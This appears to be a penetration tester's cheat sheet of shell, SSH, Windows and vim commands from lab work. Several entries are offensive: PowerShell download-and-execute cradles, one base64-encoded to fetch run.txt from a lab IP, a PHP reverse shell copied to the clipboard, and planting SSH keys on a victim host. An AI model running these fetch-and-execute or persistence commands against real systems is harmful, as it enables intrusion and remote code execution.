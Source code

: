 # Useful Commands

<details>

<summary>Enable Shared Folder on Kali VM</summary>

```bash
sudo vmhgfs-fuse .host:/ /mnt/hgfs/ -o allow_other -o uid=1000
```

</details>

<details>

<summary>Powershell Download Cradle (Download &#x26; Execute)</summary>

```powershell
iex (New-Object Net.Webclient).DownloadString("http://IP/File")
```

</details>

<details>

<summary>SSH Legacy Connect</summary>

```bash
ssh -o KexAlgorithms=diffie-hellman-group14-sha1 -oHostKeyAlgorithms=+ssh-dss -p 22000 j0hn@10.11.1.252
```

</details>

<details>

<summary>Running cmd.exe as admin user</summary>

```bash
powershell.exe Start-Process cmd.exe -Verb runAs
```

OR

* Win-R --> `cmd.exe` --> Ctrl-Shift-Enter

</details>

<details>

<summary>SSH</summary>

### SSH with specified private key

```bash
chmod 400 /home/kali/.ssh/id_rsa
ssh barry@10.11.67.208 -i /home/kali/.ssh/id_rsa
```

### Don't save SSH hostkey into known hosts

```bash
ssh student@192.168.131.52 -p 2222 -o "UserKnownHostsFile=/dev/null"
```

### Starts SSH server

```bash
systemctl start ssh
```

### To troubleshoot SSH configurations

```bash
/usr/sbin/sshd -T
```

### To show SSH config

```bash
vim /etc/ssh/sshd_config
```

</details>

<details>

<summary>Linux Netw Config</summary>

```bash
ifconfig eth1 192.168.200.10 netmask 255.255.255.0
ip route add 192.168.200.0/24 dev eth1
route add default gw 192.168.100.104 eth1
```

</details>

<details>

<summary>Search for exploits</summary>

```bash
searchsploit "Sync Breeze Enterprise 10.0.28"
```

```bash
searchsploit -m 42341
```

</details>

<details>

<summary>Vim</summary>

### Replace all occurrences from first line to last line.

```bash
:0,$s/search_term/replace_term/g
```

It has the syntax `:start_line_number,end_line_number s/<search_term>/<replace_term>/g`

### Match everything until colon (useful for cleaning hashes)

```regex
^[^:]*:
```

### Fix Indentation Error (python script)

```bash
gg=G
```

</details>

<details>

<summary>cURL POST Request</summary>

```bash
curl -X POST --data "code=2+2" http://192.168.120.36:50000/verify
```

</details>

<details>

<summary>Install Perl Packages</summary>

```bash
cpan install Package::Name
```

</details>

<details>

<summary>Copy File Contents To Clipboard</summary>

```bash
xclip -selection c /usr/share/webshells/php/php-reverse-shell.php
```

</details>

<details>

<summary>Terminator Shortcuts</summary>

* Ctrl-Shift-E: Split the view vertically.

- Ctrl-Shift-O: Split the view horizontally.

* Ctrl-Shift-P: Focus on the previous view.

- Ctrl-Shift-N: Focus on the next view.

* Ctrl-D: Close the view where the focus is on.

- Ctrl-Shift-Q: Exit terminator.

</details>

<details>

<summary>Command Prompt Disabled By Administrator</summary>

* Upload [http://didierstevens.com/files/software/cmd-dll\_v0\_0\_4.zip](http://didierstevens.com/files/software/cmd-dll_v0_0_4.zip)
* Run `cmd.exe` locally

</details>

<details>

<summary>Modifying Windows PATH</summary>

```bash
set PATH=C:\Windows\system32;C:\Windows;C:\Windows\System32\Wbem;%PATH%
```

</details>

<details>

<summary>Remove Windows Directory Recursively</summary>

```bash
rmdir /s /q c:\temp
```

</details>

<details>

<summary>CMD Windows Recursive Directory Listing</summary>

```bash
dir /s /b
```

</details>

<details>

<summary>Error Connecting via xfreerdp</summary>

```bash
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:rdp
# OR, if having a different connect error, also try:
xfreerdp /u:user /p:'password' /v:X.X.X.X /d:domain /sec:tls
# and if you want to have files and clipboard there:
xfreerdp +clipboard /u:user /p:'password' /v:X.X.X.X /d:domain /sec:<whatever> /drive:<absolute path to your local folder>,/
```

</details>

<details>

<summary>Saving Terminal Commands</summary>

```bash
script <filename>
exit
```

</details>

<details>

<summary>Snipping Tool (Ctrl-Win-S) Pic Location</summary>

```bash
C:\Users\%USERNAME%\AppData\Local\Packages\Microsoft.ScreenSketch_8wekyb3d8bbwe\TempState
```

</details>

<details>

<summary>Fixing gcc: error trying to exec ‘cc1’: execvp: No such file or directory</summary>

```bash
carlos@malbec:/home/carlos$ gcc root.c -o libmalbec.so -shared -fPIC -w
gcc: error trying to exec ‘cc1’: execvp: No such file or directory

# PATH variable has not been exported. 
# To fix this, we'll export this variable.
carlos@malbec:/home/carlos$ export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
declare -x TERM="xterm"

carlos@malbec:/home/carlos$ export PATH

carlos@malbec:/home/carlos$ export
declare -x LS_COLORS=""
declare -x OLDPWD
declare -x PATH="/usr/local/bin:/usr/local/sbin:/usr/bin:/usr/sbin:/bin:/sbin:."
declare -x PWD="/home/carlos"
declare -x SHLVL="1"
declare -x TERM="xterm"
```

</details>

<details>

<summary>Can't recognize 'whoami' as an internal or external command, or batch script.</summary>

```bash
Z:\home\carlos>whoami
Can't recognize 'whoami' as an internal or external command, or batch script.
# --> use linux x86 payload instead!!!
```

</details>

<details>

<summary>Sudo (ALL) NOPASSWD: ALL to root account</summary>

```bash
sudo bash -i
```

</details>

<details>

<summary>List al the available MSFVenom payloads</summary>

```bash
msfvenom --help-formats
```

</details>

<details>

<summary>scp: Received message too long ||   scp: Ensure the remote shell produces no output for non-interactive sessions.</summary>

Means victim is running legacy SCP server --> req us to use legacy SCP protocol

* `-O` switch

```bash
scp -O -i id_rsa authorized_keys max@192.168.199.100:/home/max/.ssh/authorized_keys
```

</details>

<details>

<summary>B64 Encoding Using Powershell</summary>

```powershell
$text = "(New-Object System.Net.WebClient).DownloadString('http://192.168.119.120/run.txt') | IEX"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($text)
$EncodedText = [Convert]::ToBase64String($bytes)
$EncodedText
```

</details>

<details>

<summary>Print Specified lines</summary>

```bash
# Single line 43
sed -n 43p shellcoderunner.ps1 

# Lines 45-52
sed -n 45,52p shellcode_runner_template.cs
```

</details>

<details>

<summary>Running CMD as Admin CMD</summary>

```powershell
powershell -Command "Start-Process cmd -Verb RunAs"
```

</details>

<details>

<summary>Change Linux Owner</summary>

Change to Kali, from root

```bash
chown -hR kali .
```

</details>

